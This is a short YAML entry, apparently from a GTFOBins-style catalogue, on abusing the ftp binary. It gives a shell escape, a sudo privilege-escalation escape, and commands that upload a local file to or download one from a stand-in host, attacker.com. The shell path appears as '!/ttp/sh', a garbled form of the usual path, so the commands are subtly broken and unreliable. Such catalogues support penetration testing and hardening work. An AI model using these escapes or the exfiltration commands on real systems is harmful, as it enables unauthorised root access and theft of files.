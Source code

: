 ```yaml
---
functions:
  shell:
    - code: |
        ftp
        !/ttp/sh
  file-upload:
    - description: Send local file to a FTP server.
      code: |
        RHOST=attacker.com
        ftp $RHOST
        put file_to_send
  file-download:
    - description: Fetch a remote file from a FTP server.
      code: |
        RHOST=attacker.com
        ftp $RHOST
        get file_to_get
  sudo:
    - code: |
        sudo ftp
        !/ttp/sh
---
```

